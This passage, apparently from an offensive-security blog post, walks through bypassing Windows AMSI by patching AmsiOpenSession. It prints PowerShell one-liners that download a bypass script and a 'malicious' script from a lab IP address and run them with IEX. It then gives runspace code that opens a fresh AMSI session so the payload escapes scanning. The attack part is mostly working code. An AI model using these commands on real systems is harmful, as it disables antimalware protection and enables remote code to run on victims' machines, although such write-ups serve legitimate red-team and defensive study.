 [im16]

We place the script in full2.txt, do a bit of character counting, and we're back to where we were previously. Still works.

```
$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full2.txt"); IEX($full.substring(0,583)); IEX($full.substring(583,60)); IEX($full.substring(643,126))
```

[im17]


We restart PowerShell, and now try to combine this bypass with our malicious script, on the same line, as done earlier:

```
$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full2.txt"); IEX($full.substring(0,583)); IEX($full.substring(583,60)); IEX($full.substring(643,126)); (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/malicious.txt")|IEX
```


So what happened here? It looks like the bypass worked, since commands on subsequent prompts don't get caught. However, our “malicious” script that we tried to run on the same prompt as the bypass gets caught.

Remember that the exact same technique applied with an AmsiScanBuffer patch worked fine.

Our problem here is that, although we patched AmsiOpenSession, our malicious command is being run within the same AMSI session as the patch.
A simplified view of what happens behind the scenes is shown below:

```
AmsiOpenSession()

AmsiScanBuffer(1-liner)
AmsiScanBuffer(bypass part 1)
AmsiScanBuffer(bypass part 2)
AmsiScanBuffer(bypass part 3)
AmsiScanBuffer(malicious script)

AmsiCloseSession()
```


We don't run the patched AmsiOpenSession until the next prompt, which explains why the bypass doesn't work for our malicious script but works thereafter.

The solution is to use a Runspace to force a new AMSI session to open. The script below is the same as prior, but using the AmsiOpenSession bypass, and adding our malicious script.

```
$Runspace = [runspacefactory]::CreateRunspace()
$Runspace.Open()
         
$PowerShell = [powershell]::Create()
$PowerShell.runspace = $Runspace
$PowerShell.AddScript({$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full2.txt")}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(0,583))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(583,60))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(643,126))}).Invoke();

$PowerShell.Commands.Clear()
```
